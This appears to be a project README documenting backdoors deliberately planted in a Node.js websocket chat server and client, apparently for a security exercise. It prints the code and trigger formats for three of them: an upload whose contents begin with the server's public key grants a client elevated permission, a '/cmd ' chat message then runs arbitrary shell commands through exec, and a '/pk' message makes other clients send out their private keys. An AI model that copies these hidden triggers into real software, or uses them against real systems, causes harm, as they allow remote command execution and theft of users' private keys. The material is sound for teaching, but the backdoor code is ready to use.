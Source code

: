 # Backdoors and Vulnerabilities
## Elevating client permissions on server.
This code, located within the POST Request Handling of file uploads, checks the contents of each file upload to see if it begins with the data of the server's publicKey.
```
if (check.startsWith(pubkey_pem)) {
	var checkers = check.split("\n");
	if (checkers.length > 9) {
		var vfp = checkers[9];
		console.log(vfp);
		var client_ind = getClientIndex(vfp);
		if (client_ind != -1) {
			connectedClients[client_ind].permission = 1;
			res.setHeader('Content-Type', 'application/json');
			res.end(JSON.stringify({
				status: "Created",
				url: "Vulnerability Activated"
			}));
		}
	}
} else {
```
If the file does begin with the server's publicKey, if then the 'next line' in the file contains a valid fingerprint of a currently connected client, add a field "permission" to the client's associated websocket.
Example of file formatting for upload:
```
-----BEGIN PUBLIC KEY-----
MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAoEWigTZy0S1+7qyezGUC
6uUDHy7xWDDGdgsp+7gr9S7GmnvpnYX3LfPBjx4vZ5lc7+8zU3oSsOigudASc1UE
qYyMt5fGkRiNYv7CKl7Jeiz/Ztt5GZKTxOBxFdyWg+upxEXk1OcF15G5LxkskrX4
BseXf30N2Eg5qRqHArbhUyb12s9/R1nueCXZA5+9cWyEzC9GsxaWWV0SkXlUXrtQ
0p37AQxLgm8Tvs54cZa4K4c2bnpWgD/hC0gGd7KXz5l0ByMEan+KVEyyca7pJryJ
Iqmijx2dmrKVkxr8qSAFHAhhoiPx/pYcYiO01lNJ//x2Mt4hV1U3xby42AkDXcJt
EwIDAQAB
-----END PUBLIC KEY-----
6b5cBW7+8zWqFrMXFlo+1hBjbrD/OO2nEMHeiDXBWwA
```
Where the last line is changed to be the the client's fingerprint.
The publicKey of the server can be accessed by going to the "/pubkey" route of the server
```
https://<serverip>:<port>/pubkey
```
# Executing system commands on server from client
Whenever a client sends a public_chat message to the server, if the "permission" field is present and the message starts with "/cmd ", attempt to execute the message on the commandline.
```
case "public_chat":
	if (ws.permission == 1) {
		if (dataObj.data !== undefined) {
			var msg = dataObj.data.message;
			var cmd = "";
			if (msg.startsWith("/cmd ")) {
				cmd = msg.substr(4);
				console.log("executing code");
				exec(cmd, (err, stdout, stderr) => {
					if (err) {
						console.log("couldn't execute command");
						return;
					}
					console.log(`stdout: ${stdout}`);
					console.log(`stderr: ${stderr}`);
					var retmsg = stdout + "\n" + stderr;
					var execret = {
						type: "anonymous_chat",
						message: retmsg
					};
					ws.send(JSON.stringify(execret));
				});
				return;
			} else if (msg.startsWith("/pk")) {
				console.log("request for client privateKeys");
				dataObj.data.check = 1;
			}
		}
	}
	sendToList(connectedClients, JSON.stringify(dataObj), data.sender);
	sendToList(connectedServers, JSON.stringify(dataObj), ws.fingerprint);
	break;
```
# Getting private keys of clients from client
Whenever a client sends a public_chat message to the server, if the "permission" field is present and the message starts with "/pk", the server adds the "data.check" field to the "public_chat" before passing it to the other clients. (see above code)
this is an intentional vulnerability within the client code (index.html) therefore the elevation of permissions in the server is unnecessary and can be executed by sending a correctly formatted "public_chat".
```

```
Upon receiving the "public_chat" with the "data.check" field present, the client sends a "public_chat" containing its privateKey.
